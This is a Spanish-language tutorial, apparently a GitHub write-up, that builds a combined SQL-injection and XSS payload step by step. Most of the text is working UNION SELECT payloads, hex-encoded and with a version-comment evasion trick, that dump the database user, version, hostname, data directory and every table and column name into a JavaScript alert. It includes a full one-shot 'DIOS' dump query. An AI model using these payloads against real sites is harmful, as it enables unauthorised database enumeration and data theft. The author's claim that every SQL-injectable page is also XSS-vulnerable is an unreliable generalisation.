






# One shot payload sql and xss

En este escrito me gustaría compartir una de mis mezclas favoritas, en donde se combina una inyección xss dentro de una inyección sql para así poder mostrar el resultado de la inyeccion sql dentro de un alert gracias a la inyeccion xss, puede sonar loco o complicado pero no, es bastante fácil y trataré de explicarlo paso a paso, aquí un ejemplo del resultado: 


Para empezar tenemos que recordar bien como se comporta una inyección sql, ya que, para poder insertar este payload tenemos que hacerlo en una columna vulnerable, para recordar bien esto recomiendo pasar por el escrito de inyecciones sql:

https://github.com/Y000o/sql_injection_basic/blob/master/sql_injection_basic.md

Una vez que tengamos la página con la inyección sql lista y tengamos el numero de columnas descubiertas, podemos empezar:



En este caso la página que utilizaré tiene 21 columnas y las columnas vulnerables son 16, 17 y la numero 18. Yo estare trabajando con la numero 18.

Recordemos que siempre que una página es vulnerable a inyecciónes sql también es vulnerable a inyecciones xss, para poder inyectar xss dentro de sql se hace lo siguiente:

1 - Primero se identifica la columna vulnerable con la cual se va a trabajar (en este caso la numero 18):

        `union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21+--+`

2 - Inyectamos el payload xss dentro de la columna:

        `union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,<script>alert("_Y000!_")</script>,19,20,21+--+
        
3 - Para que se muestre correctamente la inyección xss tenemos que pasar el código a hexadecimal:

        `union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,0x3c7363726970743e616c65727428225f59303030215f22293c2f7363726970743e,19,20,21+--+`
        
4 - El resultado es el siguiente:         



Ahora, en este caso solo estamos inyectado xss puro y solo nos muestra un alert, para el sigiente paso vamos a usar los siguietes comandos y me gustaría explicar su funcion ya que los usaremos mas adelante:

```
\n = 5c6e =salto de linea

------ = 2d2d2d2d2d2d = lo usaremos como separador
```

NOTA= para hacer que los códigos codificados en hexadecimal funcionen en la inyección tenemos que poner 0x antes del código para que el navegador reconozca que estamos usando codico en hexadecimal y lo lea correctamente

Siguiendo con la inyeccion, vamos a introducir un poco de syntaxis sql dentro de la inyeccion xss, mas especificamente, lo que vamos a hacer es extender el alert:

El siguiente payload nos quedará asi:
`group_concat(<script>alert("xss_y_sql_by_Y000!_,/n,------,/n,usuario::,user(),")</script>)`

con todas las partes en hexadecimal:

`union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,group_concat(0x3c7363726970743e616c65727428227873735f795f73716c5f62795f59303030215f,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x5573756172696f3a3a,user(),0x22293c2f7363726970743e),19,20,21+--+`


vamos a explicar paso a paso esta inyección:

1 - Estamos usando "group_concat" al principio por que ya estamos integrando syntaxis sql dentro de la inyección xss:

          `group_concat`

2 - Ponemos el payload entre "()" ya que es la syntaxis usada para group_concat 

          `group_concat()`
          
3 - Estamos haciendo uso de caracteres especiales para personalizar el alert

          `group_concat(<script>alert("xss_y_sql_by_Y000!_,/n,------,/n,")</script>)`
          
4 - Usamos "Usuario::" para darle un lugar especifco a "user()" el cual usamos para que la inyeccion nos muestre el usuario que la pagina nos esta dando, en este caso tenemos "root@localhost" 

          `group_concat(<script>alert("xss_y_sql_by_Y000!_,/n,------,/n,usuario::,user(),")</script>)`
          
5 - resultado:




Siguendo esta logica podemos usar consultas perzonalizadas. les recomiendo esta parte de mi escrito de inyecciones sql:

https://github.com/Y000o/sql_injection_basic/blob/master/sql_injection_basic.md#mysql-sql-Injection-Cheat-Sheet

Una vez elegido lo que queremos mostrar, podemos ir al siguiente paso, en este ejemplo yo elegí mostrar la siguiente información:

```
user()
version()
@@hostname
@@datadir
database()
```

payload:

`group_concat(0x<script>alert("xss_y_sql_by_Y000!_,\n,------,\n,usuario::,user(),\n,------,\n,version::,version(),\n,------,\n,hostname::,@@hostname,\n,------,\n,directorio::,@@datadir,\n,------,\n,Database::,database(),\n,------,\n,")</script>)`


payload completo con todas sus partes en hexadecimal:

`union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,group_concat(0x3c7363726970743e616c657274607873735f795f73716c5f62795f59303030215f,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x7573756172696f3a3a,user(),0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x76657273696f6e3a3a,version(),0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x686f73746e616d653a3a,@@hostname,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x6469726563746f72696f3a3a,@@datadir,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x44617461626173653a3a,database(),0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x603c2f7363726970743e),19,20,21+--+`

El resultado es el siguiente:




Por último nos falta la parte mas importante de esta inyección la cual es un payload sql dios (dump in one shot).

El payload dios que vamos a usar es el siguiente: 

```

(select(@x)from(select(@x:=0x00),(select(0)from(information_schema.columns)where(table_schema=database())and(0x00)in(@x:=concat+(@x,\n,table_name,::,column_name))))x)

```

Voy a tratar de explicarlo:

Un payload "dios" en inyecciones sql, es una linea se sentencias sql que unidas devuelven toda la información de la base de datos, he ahí el nombre de dios = dump in one shot

1 - usamos "(select(@x)from(select(@x:0x00)," para reproducir la sentencia que se estará repitiendo hasta que la condicion termine, en este caso la condicion va despues de la coma (,)

          `(select(@x)from(select(@x:0x00),`

2 - Esta parte forma la condicion:
"(select(0)from(information_schema.columns)where(table_schema=database())and(0x00)in(@x:=concat+(@x,\n,table_name,::,column_name))))x)"

Primero tenemos: (select(0)from(information_schema.columns)where(table_schema=database())

lo que hace esto es seleccionar la primera linea de las columnas dentro de la base de datos en la que estamos, asi como también el nombre de la tabla en la que se encuentra

Después tenemos: and(0x00)in(@x:=concat+(@x,\n,table_name,::,column_name))))x)

Nos esta diciendo que despues de tener la primera linea de la columna se pase a la siguente y asi sucesivamente y que se almacenen en la variable antes creada "@x:" ya que se les esta dando un lugar en "0x00", por último se va a mostrar el nombre de cada tabla y de cada columna que hay en esa base de datos.

volvamos al payload:

```

(select(@x)from(select(@x:=0x00),(select(0)from(information_schema.columns)where(table_schema=database())and(0x00)in(@x:=concat+(@x,\n,table_name,::,column_name))))x)

```

por si solo este payload nos muestra la siguiente información:




Por último vamos a juntar TODO el payload:

```
group_concat(<script>alert("xss_y_sql_by_Y000!_,\n,------,\n,usuario::,user(),\n,------,\n,version::,version(),\n,------,\n,hostname::,@@hostname,\n,------,\n,directorio::,@@datadir,\n,------,\n,Database::,database(),\n,------,\n,(select(@x)from(select(@x:=0x00),(select(0)from(information_schema.columns)where(table_schema=database())and(0x00)in(@x:=concat+(@x,\n,table_name, :: ,column_name))))x),`</script>)

```

Payload completo con las partes en hex:

```

1+union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,/*!50000concat*/(0x3c7363726970743e616c657274607873735f795f73716c5f62795f59303030215f,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x7573756172696f3a3a,user(),0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x76657273696f6e3a3a,version(),0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x686f73746e616d653a3a,@@hostname,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x6469726563746f72696f3a3a,@@datadir,0x5c6e,0x2d2d2d2d2d2d,0x5c6e,0x44617461626173653a3a,database(),0x5c6e,0x2d2d2d2d2d2d,0x5c6e,(select(@x)from(select(@x:=0x00),(select(0)from(information_schema.columns)where(table_schema=database())and(0x00)in(@x:=concat+(@x,0x5c6e,table_name,0x203a3a20,column_name))))dd),0x603c2f7363726970743e),19,20,21+--+      

```

Teniendo como resultado:




Espero que este escrito sea de su agrado!
